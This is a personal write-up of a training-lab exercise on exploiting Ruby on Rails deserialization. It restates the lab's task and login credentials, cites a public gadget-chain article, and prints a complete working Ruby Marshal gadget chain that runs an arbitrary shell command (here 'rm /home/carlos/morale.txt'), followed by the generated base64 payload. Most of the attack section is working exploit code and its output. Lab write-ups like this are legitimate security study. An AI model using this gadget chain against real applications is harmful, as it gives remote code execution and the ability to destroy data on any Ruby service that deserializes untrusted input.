



# know how deserialization ruby Lab 6: Exploiting Ruby deserialization using a documented gadget chain
```bash
## know how deserialization @access_token ruby
## know how @access_token deserialization ruby
```

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter



No we need search documentation for ruby . In this case found this.. 

```bash
Deserialization Gadget for Ruby 2.x-3
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
```

```ruby
## know how deserialization ruby script universal-deserialisation-gadget-for-ruby-2-x-3-x 
## know how poc ruby

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
## change id to command to remove file
##rs.instance_variable_set('@git_set', "id")
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")


wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

# puts encode payload to base64 and remove new lines and encode to url
## know how ruby encode base64 and url
puts Base64.urlsafe_encode64(payload).gsub("\n", "")

#puts payload.inspect
#puts Marshal.load(payload)

```

We are going to https://www.onlinegdb.com/ and change to ruby and paste the code.



```bash
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==

```


